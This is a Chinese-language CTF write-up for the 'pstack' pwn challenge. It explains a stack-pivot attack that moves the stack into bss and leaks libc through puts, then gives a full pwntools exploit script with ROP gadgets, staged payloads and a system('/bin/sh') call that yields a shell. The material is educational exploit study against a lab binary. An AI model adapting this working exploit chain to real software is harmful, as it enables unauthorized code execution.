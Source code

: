 ## pstack

![[Pasted image 20240923211322.png]]

![[Pasted image 20240923211337.png]]

这是一题栈迁移，0x30的空间只能写入0x40的字节，而且没办法泄露栈的地址，我们只能往bss段上写入 。

思路：因为写入的地址不够多，我们现在可以将rbp的位置填上bss段的地址，ret的位置写入read的地址，以此再次read，在第二次的read的时候，泄露函数的真实地址，同时再调用pop_rbp_ret的寄存器来修改rbp的地址，为read下一次下写入的地址而确定，同时末尾填入bss-8和leave_ret。在最后一次的payload中写入后门，同时填入read的写入地址和leave。
![[Pasted image 20240923211437.png]]

我们看到我们的第二次的read函数的buf=rbp-0x30,也就是说
我们传入的bss=0x601100的话，那buf=0x601100-0x30,所以我们传入buf=bss+0x30,就可以保证buf=0x601100了，然后我们将ret的地址填入read的地址。
![[Pasted image 20240923211400.png]]

![[Pasted image 20240923211704.png]]

对于第二次的read的构造是这样的，首先在64位下需要rdi寄存器传put_got给put_plt,来泄露libc，在后面的read处有个点需要注意，如果在调用read之前不修改rbp的地址，那么我们如果调用了read那么我们就会往rbp=buf=bss-0x30处写入read的内容，这就会和我们在前面写入的内容冲突，那么就需要我们在调用read前修改rbp的内容，所以我们就需要调用pop_rbp并填入修改的地址，我们可以看到我们填入的地址是在原基础上填入0x40个字节，这就是我们下一次read写入的是首地址，同时我们将倒数第二的地址改为bss-8，并且将最后的地址改为leave。==对于bss-8在24GEEKCTF有讲解==


![[Pasted image 20240923211530.png]]


下面是我对将倒数第二的地址改为bss-8的测试与理解。

下面我们将payload2的样子改成这样

![[Pasted image 20240923211546.png]]

我们调试到这个样子，可以看到bbbbbbbb成为了rbp，cccccccc成为了rsp，所以我认为这个地方就是rbp的设置处，而前面的pop_rbp设置的只是为了read写入不冲突。

![[Pasted image 20240923211600.png]]

最后将倒数第二个位置改为read读入数据的首地址，也就是这次payload3的首地址，我们执行完leave的时候rbp就会跳到这个地方。

![[Pasted image 20240923211640.png]]


```
#coding:utf-8
from pwn import*
p=process("./pwn")
elf=ELF("./pwn")
libc=ELF("./libc.so.6")
put_plt=elf.plt["puts"]
put_got=elf.got["puts"]
bss=0x601a00
read_a=0x00000000004006C4
def bug(x):
    if x :
        attach(p)

p.recvuntil("Can you grasp this little bit of overflow?")
bug(1)
pay=b'a'*0x30+p64(bss+0x30)+p64(read_a)
p.send(pay)
#这里就是buf=bss-0x20
# 0x000000000040076c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040076e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400770 : pop r14 ; pop r15 ; ret
# 0x0000000000400772 : pop r15 ; ret
# 0x000000000040076b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040076f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004005b0 : pop rbp ; ret
# 0x0000000000400773 : pop rdi ; ret
# 0x0000000000400771 : pop rsi ; pop r15 ; ret
# 0x000000000040076d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400506 : ret
# 0x00000000003fc0f9 : ret 0x3f

# 0x00000000004006db : leave ; ret
# 0x0000000000400506 : ret
# 0x00000000003fc0f9 : ret 0x3f
pop_rdi=0x0000000000400773
leave=0x00000000004006db
pop_ret=0x400506
pop_rbp=0x00000000004005b0
# pay=b'flag'

def func2(x):

    pay=p64(pop_rdi)+p64(put_got)+p64(put_plt) # leak-libc
    pay+=p64(pop_rbp)+p64(bss+0x40+0x30)+p64(read_a)
    pay+=p64(bss-8)+p64(leave)
      
    # pay=b'e'*0x30+b'b'*8+b'c'*8

    p.send(pay)
    # get=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
    # print("ok")
    # print(hex(get))
func2(1)
puts_real=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_real-libc.sym['puts']
system_real=libc_base+libc.sym['system']
binsh=libc_base+libc.search('/bin/sh\x00').__next__()

ret=0x400506

payload3=(p64(pop_rdi)+p64(binsh)+p64(system_real)).ljust(0x30,b'\x00')
payload3+=p64(bss+0x40-0x8)+p64(leave)
p.send(payload3)


p.interactive()


```